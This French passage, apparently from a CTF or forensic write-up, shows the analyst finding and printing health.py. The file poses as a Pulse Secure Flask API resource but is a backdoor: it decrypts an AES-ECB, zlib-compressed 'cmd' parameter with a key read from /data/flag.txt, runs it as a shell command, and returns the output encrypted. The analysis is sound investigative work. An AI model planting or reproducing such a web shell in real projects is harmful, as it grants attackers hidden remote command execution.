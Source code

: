 Par réflexe on grep "flag":
```shell
[~/site-packages]$ grep -r "flag"
cav/api/resources/health.py:            with open("/data/flag.txt", "r") as handle:
cav/models/base.py:from sqlalchemy.orm.attributes import flag_modified
cav/models/base.py:        flag_modified(self, "data")
grep: cav/models/__pycache__/base.cpython-36.pyc : fichiers binaires correspondent
```

Le fichier "health.py" est très suspicieux.

```python
$ cat health.py 
#
# Copyright (c) 2018 by Pulse Secure, LLC. All rights reserved
#
import base64
import subprocess
import zlib
import simplejson as json
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import pad, unpad
from flask import request
from flask_restful import Resource


class Health(Resource):
    """
    Handles requests that are coming for client to post the application data.
    """

    def get(self):
        try:
            with open("/data/flag.txt", "r") as handle:
                dskey = handle.read().replace("\n", "")
            data = request.args.get("cmd")
            if data:
                aes = AES.new(dskey.encode(), AES.MODE_ECB)
                cmd = zlib.decompress(aes.decrypt(base64.b64decode(data)))
                result = subprocess.getoutput(cmd)
                if not isinstance(result, bytes): result = str(result).encode()
                result = base64.b64encode(aes.encrypt(pad(zlib.compress(result), 32))).decode()        
                return result, 200
        except Exception as e:
            return str(e), 501

```

Il semble donc que les payloads sont chiffrés en AES ECB avec la clé dans /data/flag.txt, qui était la solution de l'étape 1. Donc il suffit de trouver les payloads envoyés à l'endpoint /health.

On retourne dans les logs et on grep les requêtes à l'endpoint.
